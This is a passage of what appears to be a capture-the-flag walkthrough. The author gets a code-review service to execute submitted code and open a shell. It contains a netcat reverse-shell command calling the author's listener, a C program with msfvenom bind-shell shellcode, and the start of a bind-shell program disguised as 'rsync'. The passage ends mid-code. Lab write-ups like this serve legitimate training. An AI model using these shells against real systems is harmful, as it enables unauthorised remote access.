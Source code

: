 Ok. Well this is a interesting one. My initial thoughts were that if Mike was checking out code, he is possibly executing it? There was however no hint on what language he is expecting, so the wild goose chase began.

PHP, Python, Perl, Ruby, Bash. Name them. I tried them all. Ok maybe not all, especially not brainfk. :D However, in all of them, I tried to get the language to execute `/bin/nc 192.168.56.102 4444 -e /bin/sh` or variants thereof so that it would connect to my netcat listener on my Kali machine, and spawn me a shell.

Eventually, I came to try some C. Admittedly, I was starting to rethink my strategy by now. That was until my C source had a call to `system()` in it:

{% img https://i.imgur.com/IVmBaAA.png %}

Ooooooh. Ok so that was a very obvious hint that I was getting closer. For me, this boiled down to it either accepting PHP due to [system](http://php.net/manual/en/function.system.php), or C due to its [system](http://linux.die.net/man/3/system). Obviously though, `system()` is being filtered out, so I would need an alternative.

_insert fade to black_

_CAPTION: many hours later_

After exhausting my PHP attempts, it was time to move to C. My first attempt was was something along the lines of 

```c
#include<stdio.h>

// msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())buf;
    ret();
}
```

This was supposed to open me a `tcp/4444` shell, but to no avail. Infact, no shellcode related execution appeared to do anything. As a last resort before I figured I'd need to get me some hints, I searched for some non-shellcode type bind shell generation C source. Unfortunately, I don’t write C socket software out of my head, but luckily Google came to the rescue and landed me on [this](http://bigpointyteeth.se/code/bindshell.c). I modified the code slightly by hardcoding my desired port and shell, and submitted it to be 'reviewed':

```c
// Source: http://webcache.googleusercontent.com/search?q=cache:52EC4LfMJX4J:bigpointyteeth.se/code/bindshell.c+&cd=11&hl=en&ct=clnk&gl=za
// http://bigpointyteeth.se/code/bindshell.c
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#define SHELL "/bin/sh"   // shell to execute
#define NAME "rsync"        // name of the forked bindshell shown in ps

int main(int argc, char *argv[]) {
    char msg[16];
```
